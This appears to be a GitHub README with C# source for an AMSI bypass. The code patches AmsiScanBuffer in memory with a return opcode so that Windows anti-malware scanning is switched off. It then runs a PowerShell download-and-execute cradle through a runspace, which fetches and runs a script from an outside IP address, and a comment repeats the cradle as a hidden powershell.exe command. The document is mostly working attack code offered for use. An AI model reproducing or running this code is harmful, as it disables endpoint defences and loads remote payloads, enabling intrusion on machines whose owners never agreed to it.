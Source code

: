 AMSI Bypassing along with System.Management.Automation.Runspaces which doesn't requeire the powershell.exe to execute powershell commands.
The Powershell.exe is just interpret of .NET assembly System.Management.Automation.dll to execute OS Command and invoke PowerShell commands.
System.Management.Automation.dll file is loaded when powershell.exe open up. hence I do not rely on powershell.exe to execute OS command and Invoke powershell command, 
because We can write our own interpreter to execucate any OS Command without having powershell.exe.


**This AMSI Patching Techniquie is heavy reliance on rastamouse Techniques**
```
using System;
using System.Runtime.InteropServices;
using System.Management.Automation.Runspaces;
using System.Management.Automation;
using System.Text;

namespace AmsiScan
{
    class Program
    {
        static void Main(string[] args)
        {
          
            var AmsiDLL = LoadLibrary("amsi.dll"); // Load the amsi.dll  to obtain The AmsiScanBuffer Address
            var asbAddress = GetProcAddress(AmsiDLL, "AmsiScanBuffer");

            var ret = new byte[] { 0xc3 }; //patch opcode
            VirtualProtect(asbAddress, (UIntPtr)ret.Length, 0x40, out uint oldProtect); //Pointer changing the AmsiScanBuffer memory protection
            Marshal.Copy(ret, 0, asbAddress, ret.Length);
            VirtualProtect(asbAddress, (UIntPtr)ret.Length, oldProtect, out uint _);
            Execution.MeMe();

        }
        //powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.200.128:80/Test'))"
        public class Execution
        {
            public static void MeMe()
            {
                RunspaceConfiguration rspacecfg = RunspaceConfiguration.Create();
                Runspace rspace = RunspaceFactory.CreateRunspace(rspacecfg);
                rspace.Open();
                Pipeline pipeline = rspace.CreatePipeline();
                pipeline.Commands.AddScript("iex ((New-Object Net.WebClient).DownloadString('http://192.168.200.128:80/Test'))");
                pipeline.Invoke();
            }
        }

        //Importing The Necessary WInAPI to Load 

        [DllImport("kernel32.dll")]
        public static extern IntPtr LoadLibrary(string name);

        [DllImport("kernel32.dll")]
        public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

        [DllImport("kernel32.dll")]
        public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

    }
}

```

